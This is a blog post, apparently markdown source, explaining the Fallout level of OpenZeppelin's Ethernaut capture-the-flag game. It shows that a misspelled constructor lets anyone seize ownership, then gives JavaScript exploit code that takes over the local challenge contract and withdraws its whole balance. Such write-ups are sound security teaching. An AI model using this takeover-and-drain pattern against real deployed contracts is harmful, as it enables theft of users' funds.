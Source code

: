 Title: Solving OpenZeppelin's Ethernaut CTF - Fallout
Date: 2018-06-01
Tags: ethereum, solidity, ctf, smart contracts
Slug: fallout-challenge-solution
Summary: Third post of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.openzeppelin.com/){:target="_blank",:rel="noopener"}. In this one, we solve the second challenge: Fallout.

## Introduction
While in the [Introduction]({filename}intro.md) of this series we setup the environment with Ganache-cli and Truffle, in the [second article]({filename}fallback.md) we walked through deploying our first smart contract, the basics of Solidity and Web3 and finally found a way to become the owners of the Fallback contract, thus passing the first challenge. Now, we will solve the second one: [Fallout](https://ethernaut.openzeppelin.com/level/0x220beee334f1c1f8078352d88bcc4e6165b792f6).

## The Fallout contract
Take a moment to *thoroughly* look at the contract's source code and try to find what is wrong with it.

Need a hint ? Remember what we talked [about contract's constructors]({filename}fallback.md).

Not quite there yet ? Observe the contract's name and the name of the *constructor*. Any difference ?

~~~solidity
contract Fallout is Ownable {
    ...
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
    ...
}
~~~

Yeap, there it is. Fallout is not the same as Fal1out, which means: **Fallout does not have a constructor**. The function that was intended to be the contract's constructor is actually a regular **public** function that can be called by anyone, since its name does not match the contract's name.

Having discovered that, all we have to do now in order to become the owners of the contract (i.e. pass the challenge) is simply call the Fal1out function.

## Solving Fallout
Just follow this simple steps:

1. Start ganache-cli
2. Deploy the Fallout contract with Truffle
3. Write and execute exploit

Since steps 1 & 2 were covered in the [previous article]({filename}fallback.md), let's skip those here and move on to the fun stuff: exploiting the contract.

First, as you can see below, the structure of the exploit remains the same as in Fallback. We get the attacker account, an instance of the deployed vulnerable contract and check its owner.

~~~javascript
const FalloutContract = artifacts.require('Fallout')
const assert = require('assert')

async function execute(callback) {
    // Get attacker account
    let attacker = web3.eth.accounts[1]
    console.log(`Attacker address: ${attacker}`)

    // Instance vulnerable contract
    let contract = await FalloutContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    assert.equal(contractOwner, web3.eth.accounts[0])
    console.log(`Contract owner: ${contractOwner}`)

    //[...]

    callback()
}
module.exports = execute
~~~

Once done with that, we need to call the Fal1out function and assert the attacker has become the owner:
~~~javascript
await contract.Fal1out({
    from: attacker,
    value: web3.toWei(0.0009, 'ether')
})

// Check who's the owner now (:
contractOwner = await contract.owner.call()
assert.equal(contractOwner, attacker)
console.log(`Contract owner: ${contractOwner}`)
~~~

Excellent! As owners, we can withdraw the entire balance of the contract.
~~~javascript
// Withdraw all money
let response = await contract.collectAllocations({
    from: attacker
})
console.log(`Withdrew all allocations in transaction ${response.tx}`)
~~~

Aaand, challenge completed. That wasn't so hard, right ?

Find the entire [exploit code of the Fallout contract at my GitHub repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/fallout.exploit.js).

If you enjoyed this challenge, stay tuned! In the [next post]({filename}coinflip.md) we will dive into the problems of randomness in the Ethereum blockchain with the next challenge: [Coin Flip](https://ethernaut.openzeppelin.com/level/0xd340de695bbc39e72df800dfde78a20d2ed94035).
